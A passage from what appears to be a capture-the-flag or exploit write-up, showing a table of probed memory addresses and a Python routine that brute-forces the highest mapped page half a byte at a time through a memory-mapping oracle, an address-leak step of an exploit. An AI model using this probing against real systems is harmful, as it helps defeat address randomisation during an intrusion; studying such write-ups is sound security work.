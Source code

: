 |0x7fe3d8000000    |    No|
|0x7fe3d7000000    |    No|
|0x7fe3d6000000    |    Yes|
|0x7fe3d6f00000    |    No|
|0x7fe3d6e00000    |    No|
|0x7fe3d6d00000    |    No|
|0x7fe3d6c00000    |    No|
|0x7fe3d6b00000    |    No|
|0x7fe3d6a00000    |    Yes|
|0x7fe3d6af0000    |    No|
|0x7fe3d6ae0000    |    No|
|0x7fe3d6ad0000    |    No|
|0x7fe3d6ac0000    |    No|
|0x7fe3d6ab0000    |    No|
|0x7fe3d6aa0000    |    No|
|0x7fe3d6a90000    |    No|
|0x7fe3d6a80000    |    No|
|0x7fe3d6a70000    |    No|
|0x7fe3d6a60000    |    No|
|0x7fe3d6a50000    |    Yes|
|0x7fe3d6a5f000    |    No|
|0x7fe3d6a5e000    |    No|
|0x7fe3d6a5d000    |    No|
|0x7fe3d6a5c000    |    No|
|0x7fe3d6a5b000    |    No|
|0x7fe3d6a5a000    |    Yes|

`lastMappedPage = 0x7fe3d6a5a000`

We are bruteforcing half byte at a time, for a worst case scenario of 16*5 = 80 queries.

```py
def linearFindLargest(base, increment, idstart):
    for i in range(0, 16)[::-1]:
        print (f"{base + increment*i:#x}", end='\t|\t')
        if isAddrMapped(base + increment*i, idstart+i):
            print ('Yes')
            return i*increment
        print ('No')
    raise Exception("linearFindLargest should not fail")
  
# Find upper bound, we can't do a binary search because there are some holes which
# screw things up
lastMappedPage = leakAddr
lastMappedPage += linearFindLargest(lastMappedPage, 0x10000000, 40000)
lastMappedPage += linearFindLargest(lastMappedPage, 0x1000000, 40100)
lastMappedPage += linearFindLargest(lastMappedPage, 0x100000, 40200)
```